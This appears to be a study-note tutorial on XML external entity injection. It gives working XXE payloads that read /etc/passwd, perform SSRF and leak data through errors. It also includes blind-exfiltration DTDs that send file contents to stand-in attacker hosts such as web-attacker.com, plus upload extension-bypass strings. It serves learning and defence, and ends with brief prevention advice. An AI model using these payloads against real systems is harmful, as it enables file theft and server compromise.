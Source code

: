 # XML external entity (XXE) injection :syringe:

Uses XML data processing by a server to execute attacks against a server.  Can allow an attacker to:

- Read files on the server;
- Compromise the server; or
- Execute SSRF attacks.

Attacks occur when applications use XML to transmit data and do not disable potentially dangerous processing of XML entities.

:bulb: This type was more prevelant before JSON became the dominant data transfer format, but it is still sometimes exploitable.

## XML refresher

- `XML entities`: represent special characters in XML documents such as `&amp;`, `&gt;` and `&lt;`.
- `Document type definition (DTD)`: defines the structure of an XML document.  DTD is defined using a `DOCTYPE` tag.
- `XML custom entity`: define a custom entity in a DTD: `<!DOCTYPE foo [ <!ENTITY bar "bambaz" > ]>` which will cause `&bar;` to be replaced with the value `bambaz`.
- `XML external entity`: define an external entity in a DTD using the `SYSTEM` keyword.  They can be referenced from a local file or URL: 
```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

Most XXE attacks are caused by XML external entities.

## XXE attacks

- `Retrieve file contents`: 
```xml
<!-- Return the contents of `/etc/passwd` -->
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
```
- `Perform SSRF attack`: 
```xml
<!-- Return contents of `http://internal-website.com` -->
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://internal-website.com" > ]>
```
- `Blind XXE to exfiltrate data`: 
```xml
<!-- Cause the contents of `/etc/passwd` to be send to http://evil-corp.com -->
<!DOCTYPE foo [ <!ENTITY % file SYSTEM "file:///etc/passwd" >
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://evil-corp.com/?x=%file;'>"> %eval; %exfiltrate; ]>`
```
- `Blind XXE to retrieve data via error messages`: attacker triggers an XML parsing error that leaks sensitive data.

:bulb: When testing for XXE vulnerabilities, you will often need to test each node of the XML document to see if it is vulnerable.

### Retrieve file contents

Attacker must introduce or edit the DOCTYPE.  For example, an XML request that gets stock levels:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>

<!-- Alter to include a doctype that references a local file with a new `&xxe;` entity -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### Perform SSRF attack

Induce the application to make a request and return the resonse from an internal system:

```xml
<!-- 
Reponse will include response from http://internal.vulnerable-website.com/ if output is displayed to the user
Otherwise, this is a blind XXE attack
-->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### XXE via file upload

If an application allows XML to be uploaded.  This can include SVG files, which are XML.  For example, an SVG file that displays a message:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="0" y="15" fill="red">&xxe;</text>
</svg>
```

It may also be possible to cause the server to accept an SVG file even if it only accepts PNG or JGP image types by changing the file extension:
```sh
# null byte and semicolon termination
malicious.svg%00.jpg
malicious.svg;.jpg`
```

### XXE via modified content type

Although an application may expect to receive request payloads in a specific type, it may be tolerant of XML payloads:

```http
# Expected format
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar

# Tolerates XML instead, at which point, XXE attacks can be attempted
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

### Blind XXE

Detect blind XXE by:

- using out-of-band testing; or
- triggering XML parsing errors.

#### Out-of-band testing (OAST)

The following will make a very specific request to a server controlled by the attacker which will be seen in the logs:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

It may be possible to bypass XML parsing hardening using parameter entities as well:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

#### Exfiltrating data using blind XXE

Attacker defines a malicious DTD hosted at `http://web-attacker.com/malicious.dtd`:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

They can then submit the following XML payload to a vulnerable application:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe; ]>
```

:bulb: this type of attack may be blocked by responses that contain newline characters.  Sometimes this can be bypassed using the FTP protocol rather than HTTP.

#### Retrieving data via XML parsing errors

Attacker defines a malicious DTD hosted at `http://web-attacker.com/malicious.dtd`:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Submitting the following to a vulnerable application will cause an XML error that leaks the contents of `/etc/passwd`:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe; ]>
```

#### Reporposing a local DTD

If external entity resolution is disabled, you may be able to redefine a custom entity within a local DTD on the target system.

1. Find a suitable local DTD file by searching for `*.dtd` files:

```xml
# This will issue an error if the local DTD does not exist
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
%local_dtd;
]>
```

2. Redefine a custom entity within the local DTD:

```dtd
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

## Finding XXE injection vulnerabilities

- `Requests contain XML data`: these are obvious vectors for XXE attacks.
- `XInclude attacks`: occur when the application includes your request in another XML document.  Since you do not control the entire document, a new `DOCTYPE` cannot be added.  However, `XInclude` still allows for XXE:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
- `File retrieval`: test for well known OS file retrieval such as `/etc/passwd` or `/etc/hosts`.
- `Blind XXE to trigger SSRF`: send requests to systems you control and watch for requests in the logs.


## Prevent

- Disable as many XML processing features as possible.
- Usually disabling external entity resolution and `XInclude` is enough.

## Tools

## References

- https://portswigger.net/web-security/xxe
- https://portswigger.net/web-security/xxe/blind
- https://portswigger.net/web-security/xxe/xml-entities